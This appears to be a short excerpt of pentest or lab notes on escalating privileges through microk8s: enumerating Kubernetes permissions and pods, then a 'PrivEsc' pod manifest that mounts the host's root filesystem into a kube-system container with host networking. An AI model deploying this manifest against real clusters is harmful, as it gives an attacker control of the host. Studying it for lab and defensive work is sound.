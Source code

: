 ```bash
        juju
        kubectl # cli 
        leave
        linkerd
        refresh-certs
        remove-node
        reset
        start
        status
        stop
        inspect
```

![](microk8cmdsOne.png)

Kubenetes check for permissions
```bash
microk8s kubectl auth can-i --list
# If you see:
Resources   Non-Resource URLs   Resource Names   Verbs
*.*         []                  []               [*]
# You can do anything
```

```bash
microk8s kubectl get namespace
microk8s kubectl get pods
microk8s kubectl get pod $pod -o yaml
```

![](getthepodyaml.png)
We need the image field.
![](imagedetails.png)

## PrivEsc

We then create this yaml file to create another pod
```YAML
apiVersion: v1
kind: Pod
metadata:
  name: some-pod
  namespace: kube-system
spec:
  containers:
    - name: shell
      image: localhost:32000/bsnginx
      command: ['/bin/sh']
      args: ['-c', 'sleep 300000']
      volumeMounts:
        - mountPath: /mnt
          name: hostfs
  volumes:
    - name: hostfs
      hostPath:
        path: /
  autommountServiceAccountToken: true
  hostNetwork: true
```
